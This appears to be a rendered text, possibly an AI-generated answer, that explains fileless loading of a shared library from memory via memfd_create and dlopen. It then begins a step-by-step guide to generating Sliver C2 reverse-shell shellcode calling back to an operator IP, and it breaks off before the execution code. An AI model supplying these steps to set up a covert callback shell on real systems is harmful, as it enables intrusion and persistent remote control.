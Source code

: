 - The `load_library` function opens the shared library file and reads its content into memory.
- `memfd_create` is used to create an anonymous file in memory.
- The content of the shared library is written to this memory file.
- The file descriptor for the memory file is converted to a path using `/proc/self/fd/`.
- The `dlopen` function is used to dynamically load the shared library from the memory file.

### Security Considerations

This technique can be used for legitimate purposes, such as dynamic loading of plugins or hot-patching applications. However, it can also be abused for injecting malicious code into running processes. It is important to secure applications against unauthorized use of `LD_PRELOAD` and ensure that only trusted code is executed.

### Use Cases

- **Testing and Debugging**: Injecting code to monitor or modify the behavior of a running application.
- **Hot Patching**: Applying patches or updates to a running application without restarting it.
- **Code Injection**: Injecting custom code into a process for various purposes, such as enhancing functionality or exploiting vulnerabilities.

This method leverages powerful features of the Linux operating system and should be used responsibly, keeping in mind the potential security implications.

Running shellcode on a Linux system to connect back to the Sliver C2 framework involves several steps. Here’s a general guide on how you can achieve this:

### Prerequisites

1. **Sliver C2 Framework**: Ensure you have the Sliver C2 framework set up and running.
2. **Payload Generation**: Use Sliver to generate a reverse shell payload.
3. **Shellcode Execution**: Understand how to execute shellcode on a Linux system.

### Step-by-Step Guide

#### 1. Set Up Sliver C2 Framework

First, you need to install and configure Sliver. Follow the official [Sliver documentation](https://github.com/BishopFox/sliver) for setup instructions.

#### 2. Generate Shellcode Payload with Sliver

Use Sliver to generate a reverse shell payload. This payload will be used as the shellcode.

```sh
sliver > generate shellcode --http 192.168.1.100 --format raw --skip-symbols
```

- `--http 192.168.1.100`: Replace with the IP address of your Sliver server.
- `--format raw`: Specifies the format of the payload.
- `--skip-symbols`: Skips symbol resolution in the shellcode to make it smaller.

#### 3. Write a C Program to Execute Shellcode

Create a C program that will execute the generated shellcode. Here’s an example:

